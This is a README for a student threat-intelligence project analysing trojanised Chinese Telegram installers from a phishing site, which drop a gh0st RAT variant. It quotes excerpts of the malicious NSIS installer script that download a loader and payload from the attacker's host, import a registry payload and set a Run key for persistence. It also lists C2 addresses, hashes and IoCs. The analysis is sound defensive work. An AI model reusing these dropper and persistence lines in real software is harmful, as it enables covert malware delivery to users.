



# Dangerous_Telegram
Contributor : [Lei HUANG](https://github.com/hualin999)

Tutors : Mr. [Alexandre DULAUNOY](https://github.com/adulau) & Mr. [Christian STUDER](https://github.com/chrisr3d)

## Project Context

As we all know, there is a firewall called "Great Firewall" in China. The Great Firewall is the combination of legislative actions and technologies enforced by the People's Republic of China to regulate the Internet domestically. Its role in internet censorship in China is to block access to selected foreign websites and to slow down cross-border internet traffic.

The effect includes : limiting access to foreign information sources, blocking foreign internet tools (e.g. Google Search, Facebook, Twitter, Wikipedia, and others) and **Mobile Apps**, and requiring foreign companies to adapt to domestic regulations.

Obviously our subject today is not "Great Firewall", but because of this, people in China cannot use Telegram through official downloads, and therefore Telegram does not release official Chinese installers and language packs. 

This has led to the uncontrolled (without legal constraints) spread of various **Trojans** and **Malware** disguised as phishing links (like official download link/installation package or Chinese installation package) or Chinese community chat files (Especially Telegram downloads chat files by default).

## Project Objective

**The purpose of this project is to analyze some Malware and Trojan samples that are currently spreading widely in the Telegram Chinese community, and to translate the relevant threat intelligence information into a specific analysis model for MISP.**

## Sample Analysis Procedure

The original sample was taken from ``http://telegram-vip.com``, a phishing site disguised as a Chinese version of Telegram :


The home page of the website has links to download the so-called versions, but if you click on the links to download **Telegram for Mac** or **Telegram for Windows**, the downloaded file will be a Windows installer named ``tsetup.2.1.10.exe``. If you click on the link to download Telegram for Android or iPhone, you will be redirected to another page : 


Depending on the link clicked, the results vary :

- Clicking on the iPhone download link will redirect you to the normal Apple App Store : ``https://apps.apple.com/app/telegram-messenger/id686449807``

- Clicking on the Android version will redirect you to another link to download the installer : ``https://telegrcn.org/download/telegramCN_631.apk``

- Clicking on the Mac version download link will redirect you to another link to download the installer : ``https://telegrcn.org/download/tsetup.2.1.10.dmg``

- Clicking on the Windows version is the same as the installation package downloaded from the home page.

Next, for the sake of time, we will first analyze the Windows version of "installer".

## Malware installation package information

|Filename|SHA256|
|:--------:|:------:|
|telegram_setup.2.1.6.exe|1f09381186a82f070d7beda66f575efdecd92b76217b5a0d9b904c1d64c89fc8|
|telegram_setup.2.1.10.exe|35133a3283381aa503f0d415de3ab8111e2e690bd32ad3dddde1213b51c877ba|

Both installers use the NSIS ([Nullsoft Scriptable Install System](https://nsis.sourceforge.io/Main_Page)) package, which can be extracted directly with ``7-zip`` to get the restored installation script. ``7-zip`` added automatic decompilation of the NSIS script in ``9.33``, but removed it in ``15.06``, so be aware that version must be in between.

The directory structure of the two versions after decompression is as follows : 

```
2.1.6/
├── $PLUGINSDIR                        // NSIS Related Files
│   ├── InstallOptions.dll
│   ├── ioSpecial.ini
│   ├── LangDLL.dll
│   ├── modern-wizard.bmp
│   └── TextReplace.dll
├── C                                  // The file will be copied directly to the corresponding location during installation
│   └── PerfLog
│       ├── AddInProcess.exe           // Backdoor (Loader)
│       └── AddInProcess.exe.config
├── [NSIS].nsi                         // NSIS scripts extracted by 7-zip
├── ns.reg                             // Payload Registry File
├── Telegram.exe                       // Telegram Desktop 2.1.6.0
├── uninst.exe.nsis
└── Updater.exe
```

```
2.1.10/
├── $PLUGINSDIR                        // NSIS Related Files
│   ├── InetLoad.dll
│   ├── InstallOptions.dll
│   ├── ioSpecial.ini
│   ├── LangDLL.dll
│   ├── modern-wizard.bmp
│   ├── System.dll
│   └── TextReplace.dll
├── [NSIS].nsi                         // NSIS scripts extracted by 7-zip
├── Telegram.exe                       // Telegram Desktop 2.1.6.0
├── uninst.exe.nsis
└── Updater.exe
```

Comparing the two versions, we can obviously notice that version ``2.1.10`` is missing the key backdoor files ``C:\PerfLog`` and ``ns.reg``, ``2.1.6`` directly packaged these files together, but ``2.1.10`` changed the way, using the NSIS script to download these two files only during the installation process, which can be seen in the NSIS script. The following is an excerpt from the ``2.1.10 NSIS.nsi`` script with some of the relevant commands : 

```
# Download loader and registry file
InetLoad::load /BANNER "" "Cameron Diaz download in progress, please wait ;)" http://www.telegram-vip.com/index2.php cnPath.exe
InetLoad::load /BANNER "" "Cameron Diaz download in progress, please wait ;)" http://www.telegram-vip.com/index3.php ns.reg
```

```
# Replace 123456 to <ComputerName> from ns.reg then use regedit.exe to import
ReadRegStr $R1 HKLM SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName ComputerName
TextReplace::_FindInFile /NOUNLOAD $INSTDIR\ns.reg 123456 /S=1
TextReplace::_ReplaceInFile /NOUNLOAD $INSTDIR\ns.reg $INSTDIR\ns.reg 123456 $R1 "/S=1 /C=1 /AO=1"
Exec "regedit.exe /s $\"$INSTDIR\ns.reg$\""
```

```
# Move $INSTDIR\cnPath.exe to C:\PerfLog\AddInProcess.exe
StrCpy $R0 $INSTDIR\cnPath.exe
StrCpy $R1 C:\PerfLog\AddInProcess.exe
System::Call "Kernel32::MoveFileA(t R0,t R1)"
```

```
# Setup service registry and run
WriteRegStr HKCU Software\Microsoft\Windows\CurrentVersion\Run telegramCnService C:\PerfLog\AddInProcess.exe
ExecShell "" C:\PerfLog\AddInProcess.exe
```

Understanding the above NSIS script can help us learn how it is infected and how it is persisted.

## Load file AddInProcess.exe

|Filename|SHA256|
|:----:|:----:|
|AddInProcess.exe (2.1.6)|f853c478fc57ac7e8bf3676b5d043d8bf071e2b817fe93d2acbd0333c46d1063|
|AddInProcess.exe (2.1.10)|379a9fcb8701754559901029812e6614c187d114e3527dd41795aa7647b68811|

Basically, the content of the two files is not much different, only the metadata has changed, the File Version has changed from ``1.0.0.0`` to ``1.3.0.0`` : 


The same structure and functions in ``.NET`` file :


The same ``Main`` function : 



As you can see from the Main function above, ``AddInProcess.exe`` is just a loader, the real content is in the registry data imported during installation, located in ``HKEY_CURRENT_USER\Software\<COMPUTERNAME>`` which is a base64 coded DLL and an IP address :


## Assembly.Load (Malware.dll)

Assembly.Load function can dynamically load another DLL, i.e. registry content, which we can extract for further analysis.

|Filename|SHA256|
|:----:|:----:|
|ns.reg (2.1.6)|96e0c3048df12fd8a930fbf38e380e229b4cdb8c2327c58ad278cfb7dafcec22|
|registry.bin (2.1.6)|7fd9d7a91eb9f413463c9f358312fce6a6427b3cd4f5e896a4a5629cb945520a|
|ns.reg (2.1.10)|d620d8f93877387b7fab7828bbfe44f38f4a738ca6fd68f18507b3aa95da683a|
|registry.bin (2.1.10)|e60b984b7515a6d606ee4e4ae9cb7936bc403176e0ac8dbeeb6d0ae201fca3ef|

The extracted ``.NET`` DLL has the same structure : 


The only difference is the Main function, and the dlldata in the ClassBuff : 


In version ``2.1.6``, the IP address of C2 is read from the registry using ``Program.GetRegedit()``, but for some reason in version ``2.1.10``, it has become a fixed Base64 string ``MTU0LjIyMi4xMDMuNTg6Nzg3OA==`` to ``Program.StartWorkThread()`` : 



``Program.StartWorkThread()`` is responsible for preparing the IP address and port of C2 to start ``Program.MainThread()``. What is special here is that this function has another default C2 IP address, which is used when the function is called and substituted for an empty string. As we saw earlier, there is a loop in the Main function. ``Program.StartWorkThread()`` will be called after waiting for 300 seconds, and the IP address will be used then.


``MainThread()`` then converts the object containing the IP address to bytes and looks for the preset ``255.255.255.255`` in ``ClassBuff().dlldata`` to overwrite it. Finally, use the class ``DLLFromMemory`` to execute the final DLL directly in memory, export function Launch.

## Hello gh0st RAT DLL

|Filename|SHA256|
|:----:|:----:|
|dlldata_2.1.6.bin|e0d7398d2a5a936584742bd456ab2788722a989ad5e9c49567207c76275254b0|
|dlldata_2.1.10.bin|9c0aa1e136f02e99b80e27e48dc5c4bb95a0b7f115d2f68aa4e9b1bef593d3db

Both of these DLLs maintain the C2 IP of ``255.255.255.255``, which was fixed in ``registry.bin`` before it was modified. The last DLL loaded dynamically in memory is a variant of the gh0st RAT, which is very similar to the old and new versions and has roughly no functional differences : 


There are many detailed reports and source code about gh0st RAT, so we will not talk about the last DLL here, but it is worth mentioning that this sample sends and receives TCP packets with simple bit computation : 


In addition, the magic header of this gh0st RAT variant has only three words: ``203 (\x32\x30\x33)``, encoded as ``\xCD\xCF\xCE``, followed by 4 bytes which is the size of the packet (the orange box ``\x0F\x03\x00\x00`` in the figure below), and the remaining data is not compressed.


## Extended Survey

The two C2 addresses were obtained during the previous analysis : 

- ``154.222.103.58:7878`` : The first C2 IP is read from the registry in version ``2.1.6``, but in ``2.1.10``, although the registry still has the same IP, the sample also has the same IP fixed.

- ``185.224.168.130:3563`` : The second C2 IP, wait for five minutes before connecting.

There is also the original fake site ``http://telegram-vip.com`` with an A record of ``45.114.106.2``. By using the favicon hash or HTML body hash, a total of five associated IP's can be found that all belong to the same fake site : 

- ``45.114.106.2``
- ``45.114.106.3``
- ``45.114.106.4``
- ``45.114.106.5``
- ``45.114.106.6``

Related search features : 

- ``https://www.shodan.io/search?query=http.favicon.hash%3A1246367191+country%3A%22CN%22``


- ``https://censys.io/ipv4?q=f66e0b7ec3a87e950ae989e1825174b43ccd4b56c32963e5c475bead44adf700``


Where the IP address ``45.114.106.3`` has a Domain Name ``telegramsvip.com``, even hit the Google ads : 



## IoCs

|IP|Description|
|:----:|:----:|
|45.114.106.2|Fake Site|
|45.114.106.3|Fake Site|
|45.114.106.4|Fake Site|
|45.114.106.5|Fake Site|
|45.114.106.6|Fake Site|
|154.222.103.58|gh0st RAT C2|
|185.224.168.130|gh0st RAT C2|

|SHA256|Description|
|:----:|:----:|
|1f09381186a82f070d7beda66f575efdecd92b76217b5a0d9b904c1d64c89fc8|	telegram_setup.2.1.6.exe|
|35133a3283381aa503f0d415de3ab8111e2e690bd32ad3dddde1213b51c877ba|tsetup.2.1.10.exe|
|f853c478fc57ac7e8bf3676b5d043d8bf071e2b817fe93d2acbd0333c46d1063|AddInProcess.exe (telegram_setup.2.1.6.exe)|
|379a9fcb8701754559901029812e6614c187d114e3527dd41795aa7647b68811|AddInProcess.exe (tsetup.2.1.10.exe)|
|96e0c3048df12fd8a930fbf38e380e229b4cdb8c2327c58ad278cfb7dafcec22|ns.reg (2.1.6)|
|d620d8f93877387b7fab7828bbfe44f38f4a738ca6fd68f18507b3aa95da683a|ns.reg (2.1.10)|
|7fd9d7a91eb9f413463c9f358312fce6a6427b3cd4f5e896a4a5629cb945520a|excracted DLL from ns.reg (2.1.6)|
|e60b984b7515a6d606ee4e4ae9cb7936bc403176e0ac8dbeeb6d0ae201fca3ef|extracted DLL from ns.reg (2.1.10)|
|e0d7398d2a5a936584742bd456ab2788722a989ad5e9c49567207c76275254b0|embedded gh0st RAT DLL (2.1.6)|
|9c0aa1e136f02e99b80e27e48dc5c4bb95a0b7f115d2f68aa4e9b1bef593d3db|embedded gh0st RAT DLL (2.1.10)|
|19d1ff6bb589fab200f3bced0f148bb5e20fe9b37bd03de9cd425116cc0dba17|telegramCN_631.apk


